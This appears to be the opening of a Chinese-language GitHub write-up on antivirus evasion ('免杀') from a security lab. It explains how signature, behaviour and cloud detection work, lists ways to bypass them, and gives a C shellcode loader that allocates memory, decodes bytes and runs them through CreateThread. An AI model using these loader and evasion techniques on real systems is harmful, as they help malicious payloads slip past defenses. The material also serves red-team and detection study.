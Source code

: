 # 免杀技术大杂烩---乱拳也打不死老师傅
Author: Boi@Linton Lab 360

[TOC]

左上角按钮可以看目录树

---

目前的反病毒安全软件，常见有三种，一种基于特征，一种基于行为，一种基于云查杀。云查杀的特点基本也可以概括为特征查杀。

对特征来讲，大多数杀毒软件会定义一个阈值，当文件内部的特征数量达到一定程度就会触发报警，也不排除杀软会针对某个EXP会限制特定的入口函数来查杀。当然还有通过md5，sha1等hash函数来识别恶意软件，这也是最简单粗暴，最容易绕过的。 针对特征的免杀较为好做，可以使用加壳改壳、添加/替换资源、修改已知特征码/会增加查杀概率的单词（比如某函数名为ExecutePayloadshellcode）、加密Shellcode等等。

CreateThread
CreateThreadEx

xxx -> ntdll.dll -> win32API 

对行为来讲，很多个API可能会触发杀软的监控，比如注册表操作、添加启动项、添加服务、添加用户、注入、劫持、创建进程、加载DLL等等。 针对行为的免杀，我们可以使用白名单、替换API、替换操作方式（如使用WMI/COM的方法操作文件）等等方法实现绕过。除常规的替换、使用未导出的API等姿势外，我们还可以使用通过直接系统调用的方式实现，比如使用内核层面Zw系列的API，绕过杀软对应用层的监控（如下图所示，使用ZwAllocateVirtualMemory函数替代VirtualAlloc）。

## Loader tech
### CreateThread
```c
int main()
{
	LPVOID lpvAddr = VirtualAlloc(0, 1024, MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	unsigned char data[] = "\x00\x48\x83";
	char a1[] = "\xfc\xe4\xc8";

	SIZE_T Size = sizeof(data);
	
	//decrypt
	for (int i = 0; i < sizeof(a1); i++) {
		memcpy(&data[i * 3], &a1[i], 1);
	}

	RtlMoveMemory(lpvAddr, data, sizeof(data));
	DWORD pa = 0x01;
	VirtualProtect(lpvAddr, sizeof(data), 0x10, &pa);

	if (lpvAddr != NULL) {
		HANDLE s;
		s = CreateThread(0, 0, (LPTHREAD_START_ROUTINE)lpvAddr, data, 0, 0);
		WaitForSingleObject(s, INFINITE);
	}
}
```


[go/shellcode_inject/virtual>>]: generate